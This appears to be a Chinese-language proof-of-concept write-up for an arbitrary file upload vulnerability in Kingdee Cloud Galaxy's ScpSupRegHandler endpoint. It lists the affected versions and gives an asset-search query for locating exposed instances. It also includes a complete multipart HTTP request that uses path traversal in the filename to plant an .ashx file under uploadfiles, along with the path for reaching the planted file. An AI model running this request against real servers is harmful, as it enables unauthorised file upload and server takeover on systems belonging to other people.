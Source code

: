 ## 金蝶OA云星空 ScpSupRegHandler 任意文件上传漏洞

### 漏洞描述：
金蝶OA云星空 ScpSupRegHandler接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取服务器权限

### 漏洞影响：

金蝶云星空企业版私有云、企业版私有云（订阅）、标准版私有云（订阅）三个产品V6.2(含17年12月补丁) 至 V8.1(含23年9月补丁)

### 网络测绘：
```
app="金蝶云星空-管理中心"
```

### 漏洞复现：
登陆页面
POC:
```
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 973
Accept-Language: zh-CN,zh;q=0.8
Accept: */*Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061

Content-Disposition: form-data; name="FID"

2022
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/test.ashx."
Content-Type: text/plain

11
--2ac719f8e29343df94aa4ab49e456061-
```

![image](https://github.com/wy876/POC/assets/139549762/0175cf8c-a854-4b15-800c-7a07e3d0306c)

![image](https://github.com/wy876/POC/assets/139549762/7e731399-8257-448b-9ab4-2260d9c4dc43)

### 文件上传路径
```
访问路径：/K3Cloud/uploadfiles/Test.ashx
```
